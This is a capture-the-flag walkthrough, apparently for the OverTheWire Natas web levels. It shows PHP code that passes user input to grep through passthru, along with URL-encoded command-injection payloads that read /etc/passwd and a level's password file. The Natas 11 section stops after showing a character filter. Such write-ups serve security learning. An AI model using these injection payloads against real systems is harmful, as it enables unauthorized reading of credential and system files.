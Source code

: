 ## Natas 10

```js
// SNIP
if($key != "") {
	passthru("grep -i $key dictionary.txt");
}
// SNIP
```

To exploit this code, we can manipulate the `needle` parameter in the URL to execute arbitrary commands. For example:

```http
http://natas9.natas.labs.overthewire.org/?needle=s+%2Fetc%2Fpasswd&submit=Search
```

By passing `s+%2Fetc%2Fpasswd` as the `needle` value, we are effectively executing `grep -i s /etc/passwd`, which returns the contents of `/etc/passwd`.

To retrieve the password for Natas 10, we can use the following payload:

```bash
# payload: '[aeiou]' /etc/natas_webpass/natas10 #
#: echo "'[aeiou]' /etc/natas_webpass/natas10 #" | urlencode
%27%5baeiou%5d%27+%2fetc%2fnatas_webpass%2fnatas10+%23%0a
```

This payload uses a regular expression to match any vowel (a, e, i, o, u) and looks for these characters in the `natas10` password file. The `-i` option in `grep` makes the search case-insensitive. The `#` character is used to comment out the rest of the line, although it's not necessary in this specific context; it can help make the command execute faster by ignoring any trailing commands.

The full URL with the payload would look like this:

```http
http://natas9.natas.labs.overthewire.org/?needle=%27%5Baeiou%5D%27%20%2Fetc%2Fnatas%5Fwebpass%2Fnatas10%20%23&submit=Search
```

This URL sends the following command to the server:

```bash
grep -i '[aeiou]' /etc/natas_webpass/natas10 # dictionary.txt <-- dictionary.txt is now a comment
```

The server returns the contents of `/etc/natas_webpass/natas10` where any vowel is present, effectively revealing the password for Natas 10.

## Natas 11

```js
// SNIP
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
// SNIP
```
